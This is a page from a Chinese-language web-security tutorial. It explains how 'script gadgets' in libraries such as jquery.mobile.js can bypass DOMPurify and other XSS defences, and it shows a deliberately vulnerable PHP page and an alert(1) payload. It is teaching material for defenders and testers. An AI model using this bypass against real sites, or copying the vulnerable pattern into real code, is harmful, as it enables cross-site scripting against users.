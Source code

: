 ```
```

当字符较多时，则可以结合 `::first-line` 等CSS属性缩小范围，以获取更精确的内容

[Next ](https://websec.readthedocs.io/zh/latest/vuln/xss/trick/gadget.html)[ Previous](https://websec.readthedocs.io/zh/latest/vuln/xss/trick/index.html)

## 3.2.8.2. Bypass Via Script Gadgets

### 3.2.8.2.1. 简介

一些网站会使用白名单或者一些基于DOM的防御方式，对这些方式，有一种被称为 `Code Reuse` 的攻击方式可以绕过。该方式和二进制攻防中的Gadget相似，使用目标中的合法代码来达到绕过防御措施的目的。在论文 `Code-Reuse Attacks for the Web: Breaking Cross-Site Scripting Mitigations via Script Gadgets` 中有该方法的具体描述。

portswigger的一篇博文也表达了类似的想法 `https://portswigger.net/blog/abusing-javascript-frameworks-to-bypass-xss-mitigations`。

下面有一个简单的例子，这个例子使用了 `DOMPurify` 来加固，但是因为引入了 `jquery.mobile.js` 导致可以被攻击。

### 3.2.8.2.2. 例子

```
// index.php
<?php

$msg = $_GET['message'];
$msg = str_replace("\n", "", $msg);
$msg = base64_encode($msg);

?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Preview</title>
    <script type="text/javascript" src="purify.js"></script>
    <script type="text/javascript" src="jquery.js"></script>
    <script type="text/javascript" src="jquery.mobile.js"></script>
</head>
<body>

    <script type="text/javascript">
    var d= atob('<?php echo $msg; ?>');
    var cleanvar = DOMPurify.sanitize(d);
    document.write(cleanvar);
    </script>

</body>
</html>
// payload
<div data-role=popup id='-->
&lt;script&gt;alert(1)&lt;/script&gt;'>
</div>
```
